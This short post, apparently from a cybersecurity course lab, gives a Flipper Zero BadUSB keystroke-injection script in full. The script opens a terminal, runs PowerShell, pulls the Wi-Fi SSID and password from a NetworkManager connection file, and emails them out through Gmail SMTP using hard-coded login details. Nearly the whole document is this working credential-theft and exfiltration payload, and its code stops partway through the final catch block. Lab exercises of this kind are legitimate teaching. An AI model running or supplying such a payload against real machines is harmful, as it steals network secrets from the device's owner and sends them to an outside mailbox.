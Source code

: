I tried badusb scripts with the Flipper zero. The script is as follows. 

```ducky
ALT F2
DELAY 1000
STRING x-terminal-emulator
ENTER
DELAY 2000
STRING pwsh
ENTER
DELAY 2000
STRING $Username = "email@gmail.com"; $Password = "abc1234"; 
ENTER
DELAY 1000
STRING $searchResult = Select-String -Path "/home/kali/Documents/CSIIIEx6/networkfile.nmconnection" -Pattern 'ssid=|psk=' | ForEach-Object { $_.Line -replace "/home/kali/Documents/CSIIIEx6/networkfile.nmconnection:", "" }
ENTER
DELAY 1000
STRING $searchResultAsString = $searchResult -join "`r`n"
ENTER
DELAY 1000
STRING function Send-ToEmail([string]$email, [string]$msgBody) {
ENTER
DELAY 1000
STRING $message = New-Object Net.Mail.MailMessage
ENTER
DELAY 1000
STRING $message.From = $Username
ENTER
DELAY 1000
STRING $message.To.Add($email)
ENTER
DELAY 1000
STRING $message.Subject = "[Cyber Security III] Lab6: Task 3 - BADUSB Flipper - WIFI Password email"
ENTER
DELAY 1000
STRING $message.Body = $msgBody
ENTER
DELAY 1000
STRING $smtp = New-Object Net.Mail.SmtpClient("smtp.gmail.com", 587)
ENTER
DELAY 1000
STRING $smtp.EnableSsl = $true
ENTER
DELAY 1000
STRING $smtp.Credentials = New-Object System.Net.NetworkCredential($Username, $Password)
ENTER
DELAY 1000
STRING try {
ENTER
DELAY 1000
STRING $smtp.Send($message)
ENTER
DELAY 1000
STRING Write-Host "Mail Sent"
ENTER
DELAY 1000
STRING } catch {
ENTER
DELAY 1000
STRING Write-Host "Failed to send the email. Error: $($_.Exception.Message)"
ENTER
```